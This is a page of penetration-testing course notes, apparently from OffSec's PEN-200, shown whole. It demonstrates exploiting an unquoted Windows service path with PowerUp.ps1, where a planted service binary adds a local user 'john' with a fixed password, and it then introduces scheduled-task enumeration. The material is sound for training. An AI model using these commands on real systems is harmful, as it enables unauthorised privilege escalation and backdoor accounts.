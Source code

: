 We can do the same with PowerUp.ps1

```
PS C:\Users\dave> . .\PowerUp.ps1

PS C:\Users\dave> Get-UnquotedService

ServiceName    : GammaService
Path           : C:\Program Files\Enterprise Apps\Current Version\GammaServ.exe
ModifiablePath : @{ModifiablePath=C:\; IdentityReference=NT AUTHORITY\Authenticated Users;
                 Permissions=AppendData/AddSubdirectory}
StartName      : LocalSystem
AbuseFunction  : Write-ServiceBinary -Name 'GammaService' -Path <HijackPath>
CanRestart     : True

ServiceName    : GammaService
Path           : C:\Program Files\Enterprise Apps\Current Version\GammaServ.exe
ModifiablePath : @{ModifiablePath=C:\; IdentityReference=NT AUTHORITY\Authenticated Users; Permissions=System.Object[]}
StartName      : LocalSystem
AbuseFunction  : Write-ServiceBinary -Name 'GammaService' -Path <HijackPath>
CanRestart     : True

PS C:\Users\steve> Write-ServiceBinary -Name 'GammaService' -Path "C:\Program Files\Enterprise Apps\Current.exe"

ServiceName  Path                                         Command
-----------  ----                                         -------
GammaService C:\Program Files\Enterprise Apps\Current.exe net user john Password123! /add && timeout /t 5 && net loc...

PS C:\Users\steve> Restart-Service GammaService
WARNING: Waiting for service 'GammaService (GammaService)' to start...
Restart-Service : Failed to start service 'GammaService (GammaService)'.
At line:1 char:1
+ Restart-Service GammaService
+ ~~~~~~~~~~~~~~~~~~~~~~~~~~~~
    + CategoryInfo          : OpenError: (System.ServiceProcess.ServiceController:ServiceController) [Restart-Service]
   , ServiceCommandException
    + FullyQualifiedErrorId : StartServiceFailed,Microsoft.PowerShell.Commands.RestartServiceCommand
```

#### Scheduled Tasks

We can view scheduled tasks on Windows with the _Get-ScheduledTask_[1](https://portal.offsec.com/courses/pen-200/books-and-videos/modal/modules/windows-privilege-escalation/abusing-other-windows-components/scheduled-tasks#fn1) Cmdlet or the command **schtasks /query**.[2](https://portal.offsec.com/courses/pen-200/books-and-videos/modal/modules/windows-privilege-escalation/abusing-other-windows-components/scheduled-tasks#fn2) We'll use the latter for this example to review all scheduled tasks on CLIENTWK220. We enter **/fo** with **LIST** as argument to specify the output format as list. Additionally, we add **/v** to display all properties of a task
